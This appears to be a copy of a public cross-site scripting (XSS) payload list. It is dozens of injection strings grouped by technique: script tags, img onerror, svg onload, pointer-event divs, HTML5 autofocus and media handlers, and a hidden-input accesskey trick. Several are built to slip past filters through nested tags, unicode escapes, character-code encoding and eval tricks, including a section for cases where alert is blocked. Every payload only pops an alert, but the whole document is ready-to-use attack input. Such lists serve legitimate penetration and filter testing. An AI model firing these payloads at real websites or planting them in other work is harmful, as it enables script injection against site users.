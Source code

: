 https://github.com/payloadbox/xss-payload-list

XSS PAYLOADS <3
hidalg0d"accesskey=x+onclick="+alert(1)
hidalg0d' accesskey=x onclick=alert(1) '
<inpuT autofocus oNFocus​="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
` '%3balert(String.fromCharCode(88,83,83))%2f%2f'%3balert(String.  
fromCharCode(88,83,83))%2f%2f"%3balert(String.fromCharCode  
(88,83,83))%2f%2f"%3balert(String.fromCharCode(88,83,83))%2f%2f--><%2fSCRIPT>">'><​SCRIPT>alert(String.fromCharCode(88,83,83)) <%2fSCRIPT> `

IF ALERT IS BLOCKED

\u0061\u006C\u0065\u0072\u0074(1337)
\u{61}\u{6C}\u{65}\u{72}\u{74}(1337)
\u{61}\u{6C}\u{65}\u{72}\u{74}`1337`
\u0061\u006C\u0065\u0072\u0074`1337`

Img payload

<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

Svg payload

<svgonload=alert(1)>

<svg/onload=alert('XSS')>

<svg onload=alert(1)//

<svg/onload=alert(String.fromCharCode(88,83,83))>

<svg id=alert(1) onload=eval(id)>

"><svg/onload=alert(String.fromCharCode(88,83,83))>

"><svg/onload=alert(/XSS/)

<svg><script href=data:,alert(1) />

<svg><script>alert('33')

<svg><script>alert&lpar;'33'&rpar;

Div payload

<div onpointerover="alert(45)">MOVE HERE</div>

<div onpointerdown="alert(45)">MOVE HERE</div>

<div onpointerenter="alert(45)">MOVE HERE</div>

<div onpointerleave="alert(45)">MOVE HERE</div>

<div onpointermove="alert(45)">MOVE HERE</div>

<div onpointerout="alert(45)">MOVE HERE</div>

<div onpointerup="alert(45)">MOVE HERE</div>

XSS using HTML5 tags

<body onload=alert(/XSS/.source)>

<input autofocus onfocus=alert(1)>

<select autofocus onfocus=alert(1)>

<textarea autofocus onfocus=alert(1)>

<keygen autofocus onfocus=alert(1)>

<video/poster/onerror=alert(1)>

<video><source onerror="javascript:alert(1)">

<video src=_ onloadstart="alert(1)">

<details/open/ontoggle="alert`1`">

<audio src onloadstart=alert(1)>

<marquee onstart=alert(1)>

<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen

<body ontouchend=alert(1)> // Triggers when a finger is removed from touch screen

<body ontouchmove=alert(1)> // When a finger is dragged across the screen.

XSS in hidden input

<input type="hidden" accesskey="X" onclick="alert(1)">

Use CTRL+SHIFT+X to trigger the onclick event